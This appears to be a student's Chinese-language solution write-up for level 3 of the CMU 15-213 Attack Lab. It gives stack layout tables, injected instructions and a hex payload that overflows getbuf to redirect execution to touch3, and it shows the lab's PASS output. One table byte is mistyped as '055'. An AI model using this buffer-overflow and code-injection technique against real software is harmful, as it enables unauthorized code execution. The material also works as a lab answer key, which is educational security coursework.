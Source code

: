 ### Solution

如果我们不能把cookie放在getbuf的栈中，那就只能利用最顶层的main函数返回地址之前的未使用空间了，需要的栈结构如下：

| address    | 7    | 6    | 5    | 4    | 3    | 2    | 1    | 0    | note                      |
| ---------- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ------------------------- |
| 0x5561dcc0 | 0xf4 | 0xf4 | 0xf4 | 0xf4 | 0xf4 | 0xf4 | 0xf4 | '\0' | '\0' by Gets()            |
| 0x5561dcb8 | 0x61 | 0x66 | 0x37 | 0x39 | 0x39 | 0x62 | 0x39 | 0x35 | palce "59b997fa"          |
| 0x5561dcb0 | 0    | 0    | 0    | 0    | 0    | 0x40 | 0x1f | 0x24 | 0x401f24 return main()?   |
| 0x5561dca8 | 0x00 | 0x00 | 0x00 | 0x00 | 0x00 | 0x40 | 0x18 | 0xfa | ret touch3()              |
| 0x5561dca0 | 0x00 | 0x00 | 0x00 | 0x00 | 055  | 0x61 | 0xdc | 0x78 | ret 0x5561dc78 (stack!)   |
| 0x5561dc98 | -    | -    | -    | -    | -    | -    | -    | -    | getbuf() stack            |
| 0x5561dc90 | -    | -    | -    | -    | -    | -    | -    | -    |                           |
| 0x5561dc88 | -    | -    | -    | -    | -    | -    | -    | -    |                           |
| 0x5561dc80 | -    | -    | -    | -    | -    | -    | -    | -    | hexmatch+23 overwrite     |
| 0x5561dc78 | 0xc3 | 0x55 | 0x61 | 0xdc | 0x80 | 0xc7 | 0xc7 | 0x48 | mov $0x5561dcb8,%rdi; ret |

其中

- 0x5561dcb8 是我们要写入的cookie的二进制表示
- 0x5561dc78 是我们的注入代码，把cookie的地址复制到%rdi
- 0x5561dca0 跳转到我们的注入代码0x5561dc78
- 0x5561dca8 调用touch3

```
cat result3 | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 B8 DC 61 55 C3 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 2D 78 DC 61 55 00 00 00 00 FA 18 40 00 00 00 00 00 24 1F 40 00 00 00 00 00 35 39 62 39 39 37 66 61 
```

### Revisit

这里放上运行到hexmatch+23时的栈结构，来理解为什么这注入字符串要这么放。因为0x5561dca8到0x5561dc80之间的内容都会被覆盖。

| address    | 7    | 6    | 5    | 4    | 3    | 2    | 1    | 0    | note                            |
| ---------- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ------------------------------- |
| 0x5561dcc0 | 0xf4 | 0xf4 | 0xf4 | 0xf4 | 0xf4 | 0xf4 | 0xf4 | '\0' | '\0' by Gets()                  |
| 0x5561dcb8 | 0x61 | 0x66 | 0x37 | 0x39 | 0x39 | 0x62 | 0x39 | 0x35 | cookie "59b997fa"               |
| 0x5561dcb0 | 0    | 0    | 0    | 0    | 0    | 0x40 | 0x1f | 0x24 | 0x401f24 return main()?         |
| 0x5561dca8 | ?    | ?    | ?    | ?    | ?    | ?    | ?    | ?    | touch3() push %rbx              |
| 0x5561dca0 | 0x00 | 0x00 | 0x00 | 0x00 | 0x00 | 0x40 | 0x19 | 0x61 | touch3+28 call hexmatch()       |
| 0x5561dc98 | ?    | ?    | ?    | ?    | ?    | ?    | ?    | ?    | hexmatch+0 push %r12            |
| 0x5561dc90 | ?    | ?    | ?    | ?    | ?    | ?    | ?    | ?    | hexmatch+2 push %rbp            |
| 0x5561dc88 | ?    | ?    | ?    | ?    | ?    | ?    | ?    | ?    | hexmatch+3 push %rbx            |
| 0x5561dc80 | -    | -    | -    | -    | -    | -    | -    | -    | hexmatch+23 mov $rax,0x78(%rsp) |